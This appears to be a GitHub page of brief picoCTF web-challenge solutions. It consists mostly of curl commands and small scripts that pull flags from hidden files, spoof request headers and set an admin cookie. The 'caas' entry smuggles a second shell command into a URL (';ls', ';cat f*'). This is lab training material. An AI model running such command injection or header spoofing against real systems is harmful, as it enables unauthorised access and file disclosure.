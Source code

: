 ## :robot: - where are the robots - `4`
```sh
$ curl http://jupiter.challenges.picoctf.org:36474/robots.txt
. . .
User-agent: *
Disallow: /_.html
. . .

$ curl http://jupiter.challenges.picoctf.org:36474/_.html
```

## 🕵️‍♀️ - Insp3ct0r - `18`
```r
#!/bin/bash

alias cmd='grep -i flag | sed "s/^.*flag: //" | sed "s/ .*$//" '
url='https://jupiter.challenges.picoctf.org/problem/41511'

curl -s ${url}/index.html | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/myjs.js | cmd
```


## :wood: - logon - `46`
- in chrome do `chrome://flags`
- set Partitioned cookies to enable
- relaunch and set admin cookie to true 

## :thread: - dont-use-client-side - `66`
```r
$ curl http://jupiter.challenges.picoctf.org:37821 | grep substring 
```

## :question: - who are you - `142`
```r
# HTTP Requests for Comments (RFC)

$ curl -H "user-agent: PicoBrowser" \
-H "referer: mercury.picoctf.net:34588" \
-H "date: 2018" 
-H "DNT: 1" \
-H "origin: sweden" \
-H "x-forwarded-for: 31.44.224.0" \
-H "accept-language: sv-swe" \
http://mercury.picoctf.net:34588
```

## 🉑 - Some Assembly Required 1 - `152`
###### hint: path in script

## 🇭🇺 - scavenger hunt - `161`
```r
#!/bin/bash

alias cmd='grep -i part | sed "s/^.*: //" | sed "s/ .*$//" '
url='http://mercury.picoctf.net:55079'

curl -s ${url} | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/robots.txt | cmd
curl -s ${url}/.htaccess | cmd
curl -s ${url}/.DS_Store | cmd
```
###### edited from
```sh
#!/bin/bash

curl -s -n http://mercury.picoctf.net:55079 | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/mycss.css | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/robots.txt | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.htaccess | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.DS_Store | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
```

## :baseball: - login - `200`
###### hint: base64

## :cow: - caas - `202`
```sh
$ curl "https://caas.mars.picoctf.net/cowsay/pwd;ls"
$ curl "https://caas.mars.picoctf.net/cowsay/xxx;cat f*"
```

[github flavor emoji list](https://gist.github.com/rxaviers/7360908)
